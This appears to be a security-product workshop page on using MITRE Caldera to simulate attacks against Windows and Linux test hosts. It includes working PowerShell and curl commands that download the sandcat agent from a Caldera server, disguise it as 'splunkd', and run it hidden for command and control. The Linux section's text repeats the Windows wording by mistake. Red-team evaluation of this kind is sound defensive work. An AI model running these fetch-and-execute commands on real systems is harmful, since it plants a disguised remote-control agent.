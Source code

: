 ```yaml
---
title: "Mitre Caldera"
chapter: false
weight: 31
pre: "<b>3.1 </b>"
---
```

## Mitre Caldera
CALDERA™ is a cybersecurity framework developed by MITRE that empowers cyber practitioners to save time, money, and energy through automated security assessments.

We are using Caldera as one of the tools to help us evaluate how Cloud One Workload Security and Vision One could empower companies to improve their security posture and risk management.


### Mitre Caldera - Pre-Configuration
Before you start with the attack simulation, be sure you updated the Mitre Caldera Global Configurations.
You must replace the IP Address (0.0.0.0) with the Public IP Address you are using to access the Mitre Caldera management console.

{{< youtube id="V4AxIqFGqrU" >}}

---

### Dropping the Malicious Payloads
After you update the IP Configuration, you are ready to create the payloads we are going to use with this demo.

#### Windows Payload
The first payload we will create is the Windows Payload. You will pack the malicious payload into an executable file, uploading it to filebin.net and then downloading and executing it on the Windows Client.

The following video shows step-by-step how to create this malicious payload and drop it to the Windows Target.

        Windows Payload
        
        $server="http://caldera-public-ip-address";
        $url="$server/file/download";
        $wc=New-Object System.Net.WebClient;
        $wc.Headers.add("platform","windows");
        $wc.Headers.add("file","sandcat.go");
        $data=$wc.DownloadData($url);
        get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
        rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
        [io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
        Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
        Install-Script -Name Download-AdobeReaderDC

References:
- AdobeReaderInstaller.ps1 https://www.powershellgallery.com/packages/Download-AdobeReaderDC/1.0.0
- PS1toEXE - https://ps2exe.azurewebsites.net/
- Online Storage - https://filebin.net/

{{< youtube id="Y7BuLK5055M" >}}

---
#### Linux Payload
The first payload we will create is the Windows Payload. You will pack the malicious payload into an executable file, uploading it to filebin.net and then downloading and executing it on the Windows Client.

The following video shows step-by-step how to create this malicious payload and drop it to the Linux Target.

        Linux Payload

        server="http://caldera-public-ip-address";
        curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
        chmod +x splunkd;
        ./splunkd -server $server -group red -v

References:
- Online Storage - https://filebin.net/

{{< youtube id="SXQybQwwjX4" >}}


---


